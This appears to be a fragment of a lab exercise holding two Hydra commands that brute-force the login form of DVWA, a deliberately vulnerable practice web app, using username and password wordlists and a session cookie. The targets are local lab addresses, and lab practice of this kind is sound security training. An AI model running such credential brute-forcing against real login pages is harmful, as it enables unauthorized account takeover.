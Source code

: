 
hydra -L users.txt -P passwords.txt 127.0.0.1 http-post-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Login failed" -V -t 4 -w 10 -f -c "Cookie: security=low; PHPSESSID=abcd1234"


```shell
hydra -l admin -P /home/kali/Desktop/rockyou.txt 192.168.182.151 http-post-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Login failed" -V -t 4 -w 10 -f -c "Cookie: security=low; PHPSESSID=dfgofpc7bhpnr5lndtpdlq2u8m"
```


